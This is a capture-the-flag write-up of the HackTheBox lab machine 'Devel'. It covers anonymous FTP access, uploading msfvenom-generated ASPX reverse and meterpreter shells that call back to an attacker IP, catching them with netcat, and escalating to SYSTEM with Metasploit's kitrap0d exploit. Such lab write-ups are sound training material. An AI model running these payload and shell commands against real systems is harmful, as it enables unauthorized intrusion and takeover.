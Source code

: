 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f5589512-0d6a-4e0a-b710-18590d01b0ff)

https://app.hackthebox.com/machines/Devel

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

Starting the enumeration phase, I performed a quick RustScan and found only two open ports: 21 (FTP) and 80 (HTTP).

```bash
sudo rustscan -a 10.10.10.5 -- -sC -sV -vv -oN devel_nmap
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/ff1684db-3262-466b-b484-dfdcba244917)

```
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan results showed that anonymous FTP login was allowed, and there was a directory named "aspnet_client" present in the FTP server. Additionally, there was a Microsoft IIS web server running on port 80.

Upon checking the web server, I only found the IIS welcome image with no other significant content.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f2859949-8fcd-4faf-ac45-fab773bcb1b6)

I then performed Sub-directory enumeration using tools like GoBuster and FFUF didn't yield any useful results.

## Initial Access:

Proceeding with the enumeration, I decided to explore the FTP server as an anonymous user.

```bash
FTP -vv 10.10.10.5
```

The FTP directory revealed another folder named "system_web," which contained yet another folder named "2_0_50727."

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/214a8c96-bade-4167-8854-a39b36e4d1a7)

Although subsequent sub-directory enumerations didn't provide any new findings, I speculated that since the FTP files and directories might be accessible from the web server as well, attempting to access the "aspnet_client" folder would lead to a 403 Forbidden error. This confirmed the availability of FTP files and directories on the web server.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/b457bb85-5c4e-49f1-b38f-d7946b18fedf)

To gain initial access, I created an ASP-based reverse shell using MSFVenom, taking advantage of the "aspnet_client" folder on the FTP server. After uploading the reverse shell to the server using the PUT command.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=ip_here LPORT=1337 -e x86/shikata_ga_nai -f aspx -o adv.aspx

PUT dawn.aspx
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6a571e08-d1d4-4c8d-aee2-c551af1fd50e)

I accessed the uploaded file from my web browser & successfully obtained a reverse shell running as the 'IIS web' user. 🙂

```bash
nc -lnvp 1337
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9d704370-4b41-4dbc-824d-5ab4bee2d8c4)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e10e0407-c1f5-4e88-9ce6-7c5c33f383c4)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Metasploit:

As my current privileges were insufficient to download files using standard tools such as curl, wget & Invoke-WebRequest, I decided to further exploit the system using Metasploit. First, I created a meterpreter payload and initiated Metasploit.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 LHOST=10.10.14.128 LPORT=1337 -f aspx -o narnia.aspx

msfconsole
```

Setting the necessary options in Metasploit and starting the listener, I executed the payload and gained a meterpreter session.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/03cfe5d8-781a-4adb-8182-1d3d0c593722)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/8fc48b78-91ca-44f1-9ce5-e338c9db229a)

After having the access, I used a module called "post/multi/recon/local_exploit_suggester" to identify potential privilege escalation vectors.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/d014b2dd-accf-49f6-be95-b36597205ec5)

After selecting session option '1' and running the module, several possible privilege escalation exploits were suggested:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f23b6804-0c94-4c65-ae0b-037e1eefc142)

After the task is completed I got almost 15 exploits which appears to be vulnerable:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9ac95212-7dbb-4c38-b8e7-45e989eec342)

## Privilege Escalation:

The first exploit suggested, "bypass_uac," wouldn't work as my current user wasn't in the administrator group.

I chose not to use the "cve_2020_0787" exploit since it wouldn't be ethical to exploit a vulnerability that didn't exist at the time the box was released.

However, the "ms10_015_kitrap0d" exploit seemed promising for privilege escalation. Thus, I executed it.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/18bbb9fd-ac87-4f5b-8a3e-e38305e17f06)

Running the exploit resulted in another meterpreter session running with "NT Authority \System" privileges : (pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/1b79cab2-5c49-4353-9a96-bc2a26626822)

With escalated privilege level, I gained access to sensitive files and directories, including both the user and root flags.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/451de12e-683b-489a-8882-fe5bbba8ed8c)













